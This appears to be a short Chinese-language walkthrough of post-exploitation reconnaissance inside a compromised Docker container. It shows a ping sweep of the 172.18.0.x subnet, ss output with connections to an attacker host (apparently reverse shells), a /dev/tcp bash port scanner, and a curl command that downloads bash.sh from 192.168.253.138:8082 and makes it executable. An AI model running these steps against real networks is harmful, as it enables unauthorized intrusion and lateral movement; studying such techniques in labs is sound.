 4）Current: = cap_chown


该环境装了docker，测试下网络：
ping 172.18.0.1
ping 172.18.0.2
ping 172.18.0.3
ping 172.18.0.4

for i in {1..254}; do (ping -c 1 172.18.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;

64 bytes from 172.18.0.1: icmp_seq=0 ttl=64 time=0.044 ms
64 bytes from 172.18.0.2: icmp_seq=0 ttl=64 time=0.031 ms
64 bytes from 172.18.0.3: icmp_seq=0 ttl=64 time=0.082 ms
64 bytes from 172.18.0.4: icmp_seq=0 ttl=64 time=0.057 ms

ss -ntp
State      Recv-Q Send-Q        Local Address:Port          Peer Address:Port 
ESTAB      0      0                172.18.0.2:53838      192.168.253.138:1234  
ESTAB      136    0                172.18.0.2:80         192.168.253.138:54386 
ESTAB      0      0                172.18.0.2:80         192.168.253.138:53968 
ESTAB      0      2                172.18.0.2:55121      192.168.253.138:9998

或者：ip r     ip a

端口探测脚本：
------
```
#!/bin/bash
hosts=(
"172.18.0.1"
"172.18.0.2"
"172.18.0.3"
"172.18.0.4"
)
END=65535
for host in "${hosts[@]}"
do
	   echo "==============================="
	   echo "Scanning $host"
	   echo "==============================="
	       for ((port=1;port<=END;port++))
	       do
	       echo "" > /dev/tcp/$host/$port && echo "Port $port is open"
	done 2>/dev/null
done
```

------   
curl -# -O http://192.168.253.138:8082/bash.sh
chmod +x bash.sh

===============================
Scanning 172.18.0.1
